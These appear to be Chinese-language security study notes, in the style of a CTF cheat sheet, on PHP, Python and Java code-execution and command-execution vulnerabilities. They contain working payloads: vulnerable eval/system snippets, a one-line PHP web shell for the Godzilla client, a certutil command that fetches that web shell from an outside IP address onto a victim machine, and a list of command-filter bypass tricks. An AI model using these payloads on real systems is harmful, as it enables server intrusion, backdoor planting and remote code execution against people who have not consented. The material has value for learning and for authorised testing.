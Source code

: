 漏洞函数:

1.PHP:
PHP **代码执行**函数:
eval()、assert()、preg_replace()、create_function()、array_map()、
call_user_func()、call_user_func_array()、array_filter()、uasort()
等
PHP **命令执行**函数:
system()、exec()、shell_exec()、pcntl_exec()、popen()、proc_popen()
passthru()、等

```
$code = $_GET['c'];
eval($code);
代码执行：
?c=phpinfo();

$cmd = $_GET['c'];
system($cmd);
命令执行：
?c=ver

二者又可以互相转换：
$code = $_GET['c'];
eval($code);
?c=system('ver'); //代码执行转换成命令执行

// 命令执行怎么转换成代码执行？
// 如果装了php环境 那么命令行就可以执行php命令
php "<?php phpinfo();?>" > 1.php
php 1.php


```

**命令执行可以直接反弹shell 代码执行可以植入后门**

```
当有代码执行漏洞时
?c=eval($_POST['x'])
然后哥斯拉连接

生成一句话木马1.php 内容：<?php eval($_POST['x']);?>
然后访问1.php
然后哥斯拉连接

所以上面的代码执行和下面的是一样的
```

棱角社区工具库：https://forum.ywhack.com/bountytips.php?download

```
$cmd = $_GET['c']
system($cmd);
执行文件下载：
?c=certutil.exe -urlcache -split -f http://103.217.196.59:8080/1.txt 1.php

1.txt内容是<?php eval($_POST['x']);?> 到了受害机上面变成1.php
```

2.Python:
eval exec subprocess os.system commands

3.Java:
Java 中没有类似 php 中 eval 函数这种直接可以将字符串转化为代码执行的函数,
但是有反射机制,并且有各种基于反射机制的表达式引擎,如: OGNL、SpEL、MVEL 等.







通配符

```
flag=fl*
cat fl*
cat ?la*
```

2、转义符号

```
ca\t /fl\ag
cat fl\'ag
```

2、

```
1 使用空变量$*和$@，${x},${x}绕过
ca$t fl$*ag
ca@t fl$@ag
ca$5t f$5lag
ca${2}t f${2}lag
```

3、拼接法

```
a=fl;b=ag;cat$a$b
```

4、反引号绕过：

```
cat `ls`
```

5、编码绕过:

```
echo 'flag' | base64
cat `echo ZmxhZwo= | base64 -d`

还可以
echo 'cat' | base64
`echo Y2F0Cg== | base64 -d` flag
```

6、组合绝活
touch "ag"
touch "fl\\"
touch "t \\"
touch "ca\\"
ls -t >shell
sh shell

\指的是换行

ls -t 是将文本按时间排序输出

ls -t >shell 将输出输入到 shell 文件中

sh 将文本中的文字读取出来执行



7、异或无符号（过滤 0-9a-zA-Z）
异或: rce-xor.php & rce-xor.py
或: rce-xor-or.php & rce-xor-or.py